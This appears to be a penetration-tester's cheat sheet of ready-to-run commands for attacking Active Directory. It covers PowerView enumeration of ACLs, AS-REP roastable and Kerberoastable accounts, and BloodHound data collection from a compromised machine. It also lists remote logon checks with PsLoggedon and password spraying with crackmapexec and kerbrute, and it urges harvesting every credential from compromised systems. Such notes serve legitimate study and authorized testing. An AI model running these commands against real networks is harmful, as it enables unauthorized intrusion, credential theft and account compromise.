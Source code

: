 * Checking for "GenericAll" right for a specific group, after obtaining they can be converted to name

```powershell
Get-ObjectAcl -Identity "group-name" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier | select -ExpandProperty SecurityIdentifier | Convert-SidToName
Find-DomainShare  #find the shares in the domain
Get-DomainUser -PreauthNotRequired -verbose  # identifying AS-REP roastable accounts
Get-NetUser -SPN | select serviceprincipalname  #Kerberoastable accounts
```

#### Bloodhound

* Collection methods - database
* Sharphound - transfer [sharphound.ps](http://sharphound.ps)1 into the compromised machine

```powershell
Import-Module .\[Sharphound.ps](http://Sharphound.ps)1
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\temp\ -OutputPrefix "name"
```

* Bloodhound-Python

```bash
bloodhound-python -u 'username' -p 'password' -ns DC_IP -d [DOMAIN.COM](http://DOMAIN.COM) -c all  #output will be in json format
```

* Running Bloodhound

```bash
sudo neo4j console
```

* then upload the .json files obtained

#### PsLoggedon

To see user logons at remote system of a domain(external tool)

```bash
PsLoggedon.exe \\TARGET_COMPUTER
```

#### Attacking Active Directory Authentication

💡 Make sure you obtain all the relevant credentials from compromised systems, we cannot survive if we don't have proper creds.

#### Password Spraying

* Crackmapexec - check if the output shows 'Pwned!'

```bash
crackmapexec smb SUBNET_OR_IP -u users.txt -p 'password' -d DOMAIN --continue-on-success
```

* Kerbrute

```bash
kerbrute passwordspray -d [corp.com](http://corp.com) users.txt "password"
```
